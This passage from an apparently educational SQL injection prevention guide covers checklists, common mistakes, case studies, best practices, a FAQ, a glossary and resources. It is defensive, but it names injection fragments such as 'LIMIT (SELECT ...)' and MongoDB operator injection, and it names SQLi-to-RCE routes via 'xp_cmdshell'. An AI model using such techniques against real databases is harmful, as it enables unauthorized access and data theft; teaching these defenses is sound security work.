- [ ] SIEM rules for SQLi patterns
- [ ] Pen test annually
- [ ] Incident response plan covers SQLi
- [ ] Threat model updated when architecture changes
## 🏭 Production Checklist
- [ ] No admin accounts used by applications
- [ ] Read-only accounts for analytics
- [ ] Database firewall configured
- [ ] Anomaly detection enabled
- [ ] PII columns encrypted at rest
- [ ] Query timeouts configured

---

# ❌ Common Mistakes
| Mistake | Why It Fails |
|---------|--------------|
| Using `mysqli_real_escape_string` | Numeric contexts never need quotes; multi-byte bugs exist |
| Trusting client-side validation | Trivially bypassed via curl, Postman, browser dev tools |
| Connecting as `root` / `sa` | Compromise = full DB + lateral movement |
| Dynamic `ORDER BY` | Cannot be parameterized; needs allowlist |
| Dynamic table names | Same — allowlist mapping required |
| ORM `extra()` / `raw()` with f-strings | Bypasses ORM safety layer |
| Disabling WAF because of false positives | Removes defense-in-depth layer |
| Logging raw user input | Can be exploited for log injection / sensitive data leak |
| Allowing `;` in any input | Defeats parameterization assumptions |
| `LIMIT $user_input` without casting | `LIMIT (SELECT ...)` can be injected in some DBs |

---

# ⚡ Performance Considerations
## Are Parameterized Queries Slower?
**No**. They are often **faster**:
| Approach | Parse Cost | Plan Cache |
|----------|-----------|------------|
| Concatenated SQL | Re-parsed every call | None |
| Prepared statement | Parsed once, reused | ✅ Yes |
## Other Performance Tips
* **Connection pooling** — reuse connections (PgBouncer, HikariCP)
* **Indexes** — on filtered/sorted columns
* **Caching** — Redis/Memcached for hot reads
* **Query analysis** — 'EXPLAIN ANALYZE' slow queries
> 💡 Key Takeaways

    * Security and performance are not in conflict
    * Prepared statements improve both
    ⚠️ Common Pitfalls

    * Disabling prepared statements for "performance"

---

# 🆚 SQLi vs Other Injection Attacks
| Attack Type | Target | Payload Channel | Defense |
|-------------|--------|-----------------|---------|
| **SQLi** | Database | Query params, body, headers | Parameterized queries |
| **NoSQL Injection** | Document DB | JSON operators (`$ne`, `$gt`) | Schema validation, type checks |
| **LDAP Injection** | Directory service | Filter strings | Allowlist filter inputs |
| **XPath Injection** | XML documents | XPath expressions | Pre-compiled XPath |
| **XML Injection** | XML parsers | Malformed XML | Schema validation |
| **Command Injection** | OS shell | Args passed to `exec`/`system` | Avoid shell, use safe APIs |
| **SSTI** | Template engine | Template syntax in input | Sandbox, no user templates |
| **XSS** | Browser | HTML/JS in output | Output encoding, CSP |
| **CSRF** | Session | Cross-origin requests | Tokens, SameSite cookies |
> 💡 Key Takeaways

    * All injection attacks share the same root: mixing data and code
    * Defenses are analogous across injection types
    ⚠️ Common Pitfalls

    * Defending against SQLi but ignoring NoSQL injection in MongoDB

---

# 📚 Case Studies
> Focus: root causes and lessons learned.
# Case 1: Heartland Payment Systems (2008)
| Aspect | Detail |
|--------|--------|
| **Impact** | 130M card numbers stolen |
| **Root Cause** | SQLi in web application |
| **Lesson** | Patching, code review, and input validation must be continuous |
# Case 2: Sony PlayStation Network (2011)
| Aspect | Detail |
|--------|--------|
| **Impact** | 77M accounts compromised |
| **Root Cause** | SQLi + weak network segmentation |
| **Lesson** | Defense in depth: WAF + least privilege + monitoring |
# Case 3: 7-Eleven (2022 — research disclosure)
| Aspect | Detail |
|--------|--------|
| **Impact** | Researchers demonstrated mass SQLi across fuel systems |
| **Root Cause** | Default vendor credentials, unparameterized queries |
| **Lesson** | Vendor products need security review, not just COTS trust |
> 💡 Key Takeaways

    * Most SQLi breaches follow the same pattern: missing parameterization + missing detection
    * Investing in prevention is dramatically cheaper than breach response
    ⚠️ Common Pitfalls

    * Treating security incidents as one-off events

---

# 📄 OWASP Cheat Sheet Summary
## Primary Defense Options
1. **Option 1: Parameterized Queries** ⭐ (preferred)
2. **Option 2: Stored Procedures** (with parameterization)
3. **Option 3: Allowlist Input Validation** (for identifiers)
4. **Option 4: Escaping** (last resort, database-specific)
## Additional Defenses
* **Least privilege** database accounts
* **WAF** as defense in depth
* **Disable verbose errors** in production
* **Use** 'LIMIT' to bound results
* **Audit and monitor** all queries
Source:
**https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html**

---

# 🔄 Secure Development Workflow
<p align="center">
  
</p>

## Roles & Responsibilities
| Role | Responsibility |
|------|----------------|
| **Developer** | Write parameterized code, follow secure patterns |
| **Reviewer** | Catch anti-patterns, verify safe APIs |
| **DevOps** | Secure deployment, secrets, network |
| **Security** | Threat modeling, scanning, monitoring |
| **DBA** | User provisioning, audit, performance |
| **SRE** | Alerting, incident response |

---

# 🏆 Best Practices (50+)
1. Always use parameterized queries
2. Use prepared statements for repeated queries
3. Validate input with allowlists at boundaries
4. Apply least privilege to DB accounts
5. Use separate accounts for read/write/admin
6. Disable verbose errors in production
7. Use 'LIMIT' on all queries
8. Use allowlist for dynamic identifiers
9. Avoid dynamic SQL in stored procedures
10. Never concatenate user input into SQL
11. Use ORMs with safe query methods
12. Review every ORM raw query
13. Store secrets in a vault
14. Rotate database credentials regularly
15. Use TLS for all DB connections
16. Enable database audit logging
17. Deploy a WAF in front of the app
18. Integrate SAST in CI
19. Run DAST against staging
20. Perform annual penetration tests
21. Threat model new features
22. Conduct security training for developers
23. Document secure coding standards
24. Implement code review checklists
25. Disable unnecessary DB features ('xp_cmdshell', 'UDF', etc.)
26. Restrict network access to DBs
27. Use read replicas for analytics
28. Encrypt sensitive columns at the application layer when needed
29. Hash passwords with bcrypt/argon2
30. Log security events centrally
31. Build SIEM rules for SQLi patterns
32. Configure query timeouts
33. Set 'MAX_EXECUTION_TIME' (MySQL) or 'statement_timeout' (PostgreSQL)
34. Monitor failed query patterns
35. Use connection pooling
36. Implement rate limiting on query-heavy endpoints
37. Apply database firewall rules
38. Use Row-Level Security (RLS) where appropriate
39. Perform schema reviews for new tables
40. Avoid storing SQL in configuration files
41. Use parameterized migrations (Flyway/Liquibase with placeholders)
42. Test for SQLi in unit tests
43. Include SQLi test cases in QA
44. Use Content Security Policy (CSP) for output defense
45. Disable browser autocomplete on sensitive fields
46. Enforce MFA on database admin accounts
47. Use short-lived credentials for CI/CD
48. Apply principle of least functionality to DB extensions
49. Decommission legacy unparameterized endpoints
50. Maintain an incident response playbook for SQLi
51. Subscribe to DB vendor security advisories
52. Patch DB engines regularly
53. Use a service mesh or sidecar for mTLS between services and DB

---

# ❓ FAQ
## Q1: Why is SQLi still possible in 2024?
Legacy code, developer mistakes, framework misuse, and lack of code review.
## Q2: Are ORMs immune to SQLi?
No. Raw query APIs can reintroduce vulnerabilities.
## Q3: Is escaping enough?
No. Use parameterization; escaping is context-dependent and bypassable.
## Q4: Can stored procedures prevent SQLi?
Only if they don't use dynamic SQL internally.
## Q5: What's the difference between parameterized queries and prepared statements?
Parameterized queries are a coding pattern; prepared statements are a DB feature. Prepared statements implement parameterization.
## Q6: Why can't I parameterize table names?
SQL binds values, not identifiers. Use allowlist mapping.
## Q7: Does a WAF replace secure coding?
No. WAFs are defense in depth, not a substitute.
## Q8: How do I test if my app is vulnerable?
Run SAST (Semgrep, SonarQube), DAST (OWASP ZAP), and authorized pen tests.
## Q9: What's second-order SQLi?
Stored data used unsafely in a later query — the first insert was parameterized, the second select was not.
## Q10: Are NoSQL databases immune?
No. NoSQL injection (e.g., operator injection in MongoDB) is a parallel threat.
## Q11: Should I disable error messages?
Yes, in production. Suppress stack traces and DB errors; log them server-side.
## Q12: What's the safest DB user for an app?
A least-privilege account with only the permissions it needs.
## Q13: How do attackers find SQLi?
Reconnaissance, fuzzing, scanning tools (sqlmap), and reviewing open-source code.
## Q14: Can SQLi lead to RCE?
Yes — via 'xp_cmdshell' (SQL Server), UDFs, or DB-to-OS paths.
## Q15: What about blind SQLi detection?
Use time-based and boolean-based indicators; rely on anomaly detection.
## Q16: Is it OK to validate input client-side only?
No — always validate server-side.
## Q17: How often should I rotate DB credentials?
Quarterly minimum; immediately after any suspected compromise.
## Q18: Do I need a WAF if I parameterize everything?
Defense in depth says yes. WAFs catch zero-days and misconfigurations.
## Q19: What's the cost of a SQLi breach?
Average $4.45M per breach (IBM 2023), plus regulatory fines and reputational damage.
## Q20: Can GraphQL APIs have SQLi?
Yes — if resolvers build SQL from user input without parameterization.
## Q21: How do I convince my team to fix legacy SQLi?
Show breach costs, demonstrate exploitation with sqlmap in a test environment, and frame it as risk reduction.
## Q22: What's the best language/framework to prevent SQLi?
Any modern language with parameterized APIs. The language doesn't matter — the pattern does.
## Q23: Should I use an ORM or raw SQL?
Use the ORM for standard CRUD; raw SQL only when necessary, with parameter binding.
## Q24: What are "first-party" vs "third-party" SQLi risks?
First-party: code you write. Third-party: vendor products, dependencies, stored procedures in purchased software.
## Q25: How does SQLi relate to OWASP Top 10?
It's part of A03:2021 – Injection.
## Q26: What's the role of database firewalls?
They monitor queries, enforce policies, and block suspicious patterns.
## Q27: Are cloud-managed databases safer?
They reduce operational risk but don't fix SQLi in your application.
## Q28: Can rate limiting prevent SQLi?
It slows down enumeration but doesn't prevent it.
## Q29: What's the difference between SAST and DAST?
SAST analyzes source code; DAST exercises the running app.
## Q30: What should I do if I find SQLi in production?
Patch immediately, audit for data exfiltration, rotate credentials, and conduct a post-mortem.

---

# 📖 Glossary
| Term | Definition |
|------|------------|
| **Allowlist** | List of explicitly permitted values |
| **AST** | Abstract Syntax Tree |
| **ASVS** | OWASP Application Security Verification Standard |
| **Blacklist** | List of forbidden values (weak defense) |
| **CWE** | Common Weakness Enumeration |
| **Canonicalization** | Converting input to standard form |
| **CSRF** | Cross-Site Request Forgery |
| **CSP** | Content Security Policy |
| **DAST** | Dynamic Application Security Testing |
| **DBA** | Database Administrator |
| **DBMS** | Database Management System |
| **DLP** | Data Loss Prevention |
| **DoS** | Denial of Service |
| **Dynamic SQL** | SQL built at runtime |
| **ECMAScript** | JavaScript standard |
| **Escaping** | Encoding special characters |
| **Exfiltration** | Unauthorized data transfer |
| **Fuzzing** | Sending malformed input to find bugs |
| **HQL** | Hibernate Query Language |
| **IAST** | Interactive Application Security Testing |
| **IDS** | Intrusion Detection System |
| **Injection** | Code injection via untrusted input |
| **IPS** | Intrusion Prevention System |
| **JPQL** | Java Persistence Query Language |
| **JWT** | JSON Web Token |
| **LDAP** | Lightweight Directory Access Protocol |
| **MFA** | Multi-Factor Authentication |
| **MVC** | Model-View-Controller |
| **NIST** | National Institute of Standards and Technology |
| **NoSQL** | Non-relational database |
| **ORM** | Object-Relational Mapper |
| **OWASP** | Open Web Application Security Project |
| **Parameterized Query** | Query with separated placeholders and bound values |
| **Pen Test** | Penetration Test |
| **PII** | Personally Identifiable Information |
| **Prepared Statement** | Pre-compiled SQL with parameter placeholders |
| **RASP** | Runtime Application Self-Protection |
| **RBAC** | Role-Based Access Control |
| **RCE** | Remote Code Execution |
| **RDBMS** | Relational Database Management System |
| **RLS** | Row-Level Security |
| **SAST** | Static Application Security Testing |
| **SDLC** | Software Development Lifecycle |
| **Second-Order SQLi** | Injection via previously stored data |
| **SIEM** | Security Information and Event Management |
| **SQL** | Structured Query Language |
| **SQLi** | SQL Injection |
| **SSRF** | Server-Side Request Forgery |
| **SSTI** | Server-Side Template Injection |
| **Stored Procedure** | Precompiled SQL routine in the database |
| **TDE** | Transparent Data Encryption |
| **Threat Model** | Structured analysis of potential threats |
| **TLS** | Transport Layer Security |
| **TOTP** | Time-Based One-Time Password |
| **UDF** | User-Defined Function |
| **UUID** | Universally Unique Identifier |
| **VAST** | Vulnerability Assessment |
| **VPC** | Virtual Private Cloud |
| **WAF** | Web Application Firewall |
| **XSS** | Cross-Site Scripting |
| **Zero Trust** | Security model requiring continuous verification |
| **Allowlist Mapping** | Translation of user input to known-safe identifiers |
| **Audit Log** | Record of database activity |
| **Bind Variable** | Placeholder for a parameter in a prepared statement |
| **Blind SQLi** | SQLi where results are inferred, not shown |
| **Boolean-Based Blind** | Uses true/false response differences |
| **Connection Pool** | Cache of reusable DB connections |
| **Credential Rotation** | Periodic replacement of secrets |
| **Database Firewall** | Filters SQL traffic |
| **Dynamic Identifier** | Table/column name from user input |
| **Error-Based SQLi** | SQLi exploiting verbose error messages |
| **Information Schema** | Metadata tables in SQL databases |
| **In-Band SQLi** | Same channel for injection and result |
| **Least Privilege** | Minimum permissions required |
| **Out-of-Band SQLi** | Results exfiltrated via different channel |
| **Parameterized Query** | Query using bind variables |
| **Query Plan** | Execution strategy chosen by DB optimizer |
| **Second-Order SQLi** | SQLi triggered by previously stored data |
| **Service Account** | Non-human identity for applications |
| **SQL Injection** | Code injection targeting SQL interpreters |
| **Stacked Queries** | Multiple statements separated by `;` |
| **Time-Based Blind** | Uses query timing to infer data |
| **Union-Based SQLi** | Uses `UNION` to append results |
| **Whitelist** | See Allowlist |

---

# 📚 Resources
## Official Standards
* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [OWASP Top 10 (2021)](https://owasp.org/Top10/)
* [OWASP ASVS](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [NIST SSDF (SP 800-218)](https://csrc.nist.gov/Projects/ssdf)
* [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)
* [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

## Vendor Documentation
* [PostgreSQL — PREPARE](https://www.postgresql.org/docs/current/sql-prepare.html)
* [MySQL — Prepared Statements](https://dev.mysql.com/doc/refman/8.0/en/prepared-statements.html)
* [SQLite — sqlite3 module](https://docs.python.org/3/library/sqlite3.html)
* [Microsoft SQL Server — sp_executesql](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-executesql-transact-sql)
* [Oracle — EXECUTE IMMEDIATE](https://docs.oracle.com/en/database/)
* [MariaDB — Prepared Statements](https://mariadb.com/kb/en/prepared-statements/)
## ORM Documentation
[Prisma — Raw queries](https://www.prisma.io/docs/orm/prisma-client/queries/raw-database-access)
[TypeORM — Query Builder](https://typeorm.io/select-query-builder)
[Sequelize — Raw queries](https://sequelize.org/docs/v6/core-concepts/raw-queries/)
[Drizzle — sql tag](https://orm.drizzle.team/docs/sql)
[Hibernate — HQL](https://docs.jboss.org/hibernate/orm/current/userguide/html_single/Hibernate_User_Guide.html#hql)
[SQLAlchemy — text](https://docs.sqlalchemy.org/en/20/core/sqlelement.html#sqlalchemy.sql.expression.text)
[Entity Framework — FromSqlRaw](https://learn.microsoft.com/en-us/ef/core/querying/sql-queries)
[Django — Raw queries](https://docs.djangoproject.com/en/stable/topics/db/sql/)
[Laravel — Query Builder](https://laravel.com/docs/queries)
## Further Reading
### Books
* The Web Application Hacker's Handbook — Stuttard, Pinto
* SQL Injection Attacks and Defense — Clarke
* Hacking Exposed Web Applications
### Talks
* "SQL Injection Revisited" — OWASP AppSec conferences
* "Modern SQLi in ORMs" — DEF CON
### Blogs
[PortSwigger Web Security Blog](https://portswigger.net/research)
[Troy Hunt](https://www.troyhunt.com/)
[Schneier on Security](https://www.schneier.com/)
### Tools
[sqlmap](http://sqlmap.org/)
[OWASP ZAP](https://www.zaproxy.org/)
[Burp Suite](https://portswigger.net/burp)
[Semgrep](https://semgrep.dev/)
[SonarQube](https://www.sonarsource.com/products/sonarqube/)
[CodeQL](https://codeql.github.com/)

---

# 📜 License & Disclaimer
This document is provided for **educational purposes only**. Examples of vulnerable code are intentionally shown to illustrate attack patterns and defenses. Do not deploy vulnerable code. Always obtain proper authorization before conducting security testing. The maintainers of this document are not responsible for misuse of the information contained herein.

---
> "The cheapest way to prevent SQL injection is to write parameterized queries from day one. The most expensive way is to learn it from a breach report."

---
*Maintained with curiosity by [ItsWanheda](https://github.com/ItsWanheda)*